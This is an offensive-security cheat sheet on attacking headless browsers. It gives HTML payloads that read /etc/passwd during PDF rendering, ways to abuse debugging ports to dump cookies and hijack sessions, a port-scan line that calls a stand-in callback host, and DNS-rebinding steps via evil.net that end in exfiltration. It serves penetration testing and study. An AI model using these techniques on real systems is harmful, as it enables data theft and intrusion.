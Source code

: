 # Headless Browser

> A headless browser is a web browser without a graphical user interface. It works just like a regular browser, such as Chrome or Firefox, by interpreting HTML, CSS, and JavaScript, but it does so in the background, without displaying any visuals.

> Headless browsers are primarily used for automated tasks, such as web scraping, testing, and running scripts. They are particularly useful in situations where a full-fledged browser is not needed, or where resources (like memory or CPU) are limited.


## Summary

* [Headless Commands](#headless-commands)
* [Local File Read](#local-file-read)
* [Debugging Port](#debugging-port)
* [Network](#network)
    * [Port Scanning](#port-scanning)
    * [DNS Rebinding](#dns-rebinding)
* [References](#references)


## Headless Commands

Example of headless browsers commands:

* Google Chrome
    ```ps1
    google-chrome --headless[=(new|old)] --print-to-pdf https://www.google.com
    ```

* Mozilla Firefox
    ```ps1
    firefox --screenshot https://www.google.com
    ```

* Microsoft Edge
    ```ps1
    "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --headless --disable-gpu --window-size=1280,720 --screenshot="C:\tmp\screen.png" "https://google.com"
    ```


## Local File Read

Target: `google-chrome-stable --headless[=(new|old)] --print-to-pdf https://site/file.html`

* Javascript Redirect
    ```html
    <html>
        <body>
            <script>
                window.location="/etc/passwd"
            </script>
        </body>
    </html>
    ```

* Iframe
    ```html
    <html>
        <body>
            <iframe src="/etc/passwd" height="640" width="640"></iframe>
        </body>
    </html>
    ```


## Debugging Port

**Target**: `google-chrome-stable --headless=new --remote-debugging-port=XXXX ./index.html`   

**Tools**:

* [slyd0g/WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) - Interact with Chromium-based browsers' debug port to view open tabs, installed extensions, and cookies
* [slyd0g/ripWCMN.py](https://gist.githubusercontent.com/slyd0g/955e7dde432252958e4ecd947b8a7106/raw/d96c939adc66a85fa9464cec4150543eee551356/ripWCMN.py) - WCMN alternative using Python to fix the websocket connection with an empty `origin` Header.

> [!NOTE]  
> Since Chrome update from December 20, 2022, you must start the browser with the argument `--remote-allow-origins="*"` to connect to the websocket with WhiteChocolateMacademiaNut.

**Exploits**:

* Connect and interact with the browser: `chrome://inspect/#devices`, `opera://inspect/#devices`
* Kill the currently running browser and use the `--restore-last-session` to get access to the user's tabs
* Dump cookies: 
* Stored data: `chrome://settings`
* Port Scan: In a loop open `http://localhost:<port>/json/new?http://callback.example.com?port=<port>`
* Leak UUID: Iframe: `http://127.0.0.1:<port>/json/version`
* Local File Read: [pich4ya/chrome_remote_debug_lfi.py](https://gist.github.com/pich4ya/5e7d3d172bb4c03360112fd270045e05)
* Node inspector `--inspect` works like a `--remote-debugging-port`
    ```ps1
    node --inspect app.js # default port 9229
    node --inspect=4444 app.js # custom port 4444
    node --inspect=0.0.0.0:4444 app.js
    ```

> [!NOTE]  
> The flag `--user-data-dir=/path/to/data_dir` is used to specify the user's data directory, where Chromium stores all of its application data such as cookies and history. If you start Chromium without specifying this flag, you’ll notice that none of your bookmarks, favorites, or history will be loaded into the browser.


## Network

### Port Scanning

Port Scanning: Timing attack

* Dynamically insert an `<img>` tag pointing to a hypothetical closed port. Measure time to onerror.
* Repeat at least 10 times → average time to get an error for a closed port
* Test random port 10 times and measure time to error
* If `time_to_error(random_port) > time_to_error(closed_port)*1.3` → port is opened

**Consideration**:

* Chrome blocks by default a list of "known ports"
* Chrome blocks access to local network addresses except localhost through 0.0.0.0


### DNS Rebinding

* [nccgroup/singularity](https://github.com/nccgroup/singularity) - A DNS rebinding attack framework.

1. Chrome will make 2 DNS requests: `A` and `AAAA` records
    * `AAAA` response with valid Internet IP
    * `A` response with internal IP
2. Chrome will connect in priority to the IPv6 (evil.net)
3. Close IPv6 listener just after first response
4. Open Iframe to evil.net
5. Chrome will attempt to connect to the IPv6 but as it will fail it will fallback to the IPv4
6. From top window, inject script into iframe to exfiltrate content


## References

- [Attacking Headless Browsers - truff - May 22, 2024](#bb-discord-replay-not-available)
- [Browser based Port Scanning with JavaScript - Nikolai Tschacher - January 10, 2021](https://incolumitas.com/2021/01/10/browser-based-port-scanning/)
- [Chrome DevTools Protocol - Documentation - July 3, 2017](https://chromedevtools.github.io/devtools-protocol/)
- [Cookies with Chromium’s Remote Debugger Port - Justin Bui - December 17, 2020](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)
- [Debugging Cookie Dumping Failures with Chromium’s Remote Debugger - Justin Bui - July 16, 2023](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
- [Node inspector/CEF debug abuse - HackTricks - July 18, 2024](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse)
- [Post-Exploitation: Abusing Chrome's debugging feature to observe and control browsing sessions remotely - wunderwuzzi - April 28, 2020](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)
- [Tricks for Reliable Split-Second DNS Rebinding in Chrome and Safari - Daniel Thatcher - December 6, 2023](https://www.intruder.io/research/split-second-dns-rebinding-in-chrome-and-safari)